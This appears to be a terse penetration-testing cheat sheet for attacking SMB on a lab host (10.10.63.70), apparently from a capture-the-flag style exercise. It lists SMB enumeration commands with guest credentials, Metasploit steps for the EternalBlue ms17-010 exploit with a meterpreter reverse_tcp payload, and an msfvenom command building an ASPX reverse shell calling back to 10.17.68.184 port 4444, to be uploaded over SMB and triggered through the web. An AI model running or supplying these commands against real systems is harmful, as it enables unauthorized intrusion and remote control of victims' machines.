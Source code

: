 

smbclient -L //10.10.63.70/

smbclient  //10.10.63.70/sharename

smbclient  //10.10.63.70/sharename -u Bob


crackmapexec smb 10.10.63.70 -u 'guest' -p ''  --shares



nmap -p 445 --script vuln -Pn -T4 -v 10.10.63.70


get remotefilename
put localfilename

## Eternal Blue (ms17-010)

#### msfconsole

windows/smb/ms17_010_eternalblue
set RHOSTS victim_ip
set LHOSTS attacker_ip
set payload windows/x64/meterpreter/reverse_tcp
run

------------------
generate this shell and upload to smb and try to access throgh web


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.68.184 LPORT=4444 -f aspx -o exploit.aspx



----


